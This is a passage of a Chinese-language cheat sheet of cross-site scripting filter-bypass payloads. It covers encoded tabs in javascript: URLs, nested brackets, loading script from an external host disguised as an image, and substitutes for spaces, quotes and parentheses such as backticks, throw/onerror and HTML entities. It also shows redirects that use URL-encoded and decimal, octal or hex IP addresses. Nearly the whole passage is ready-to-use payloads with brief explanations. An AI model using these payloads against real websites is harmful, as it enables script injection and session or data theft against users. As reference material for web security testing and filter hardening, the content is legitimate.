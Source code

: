#### 3.2.1.4 内嵌编码后TAB

```html
<img src="jav&#x09;ascript:alert('XSS');">
```

#### 3.2.1.5 多重尖括号

```html
<<script>alert("XSS");//<</script>
```

#### 3.2.1.6 将JS文件重命名为图像

```html
<script src="http://xss.rooks/xss.jpg"><script>
```

### 3.2.2 过滤空格/引号

#### 3.2.2.1 使用/代替

```html
<img/src="x"/onerror=alert("xss");>
<img src="x" onerror=alert(/xss/);>
```

### 3.2.3 过滤单/双引号

```html
# 使用反引号代替
<img src=x onerror=alert(`xss`);>
# 编码绕过
<img src=x onerror=alert(&#x27;xss&#x27;);>
```

### 3.2.4 过滤括号

```html
# 使用 throw 绕过
<script>onerror=alert;throw 1337</script>
> onerror在每次javascript执行异常时都会被激活，调用指定的处理程序，并且throw语句可创建一个发送到onerror处的包含表达式的自定义异常。因为throw是一个语句，在和onerror配合使用时需要用分号隔离，避免被包含。

# 使用``代替
<script>alert`1`</script>

# HTML编码绕过
<script>alert&#x28;1&#x29;</script>
```

### 3.2.5 过滤URL地址

```html
# 使用URL编码
<img src="x" onerror=document.location=`http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/`>

# 使用IP
# 使用进制转换
<img src="x" onerror=document.location=`http://2130706433/`>
<img src="x" onerror=document.location=`http://0177.0.0.01/`>
<img src="x" onerror=document.location=`http://0x7f.0x0.0x0.0x1/`>

# html标签中用//可以代替http://
<img src="x" onerror=document.location=`//www.baidu.com`>

# 使用\\
但是要注意在windows下\本身就有特殊用途，是一个 path 的写法，所以\在Windows下是file协议，在linux下才会是当前域的协议
```